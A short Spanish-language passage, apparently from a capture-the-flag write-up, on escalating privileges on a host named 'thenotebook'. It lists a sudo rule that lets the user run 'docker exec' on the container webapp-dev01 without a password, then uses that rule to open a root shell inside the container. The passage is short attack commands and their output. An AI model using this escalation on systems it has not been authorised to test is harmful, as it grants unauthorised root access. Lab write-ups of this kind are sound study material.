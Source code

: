 

# IDENTIFICAR PERMISOS SOBRE EL DOCKER
### SUDO -L
```shell
noah@thenotebook:~$ sudo -l
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

# EJECUCUÓN DE COMANDOS COMO ADMINISTRADOR
**RCE**
```shell
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@0f4c2517af40:/opt/webapp# whoami
root
```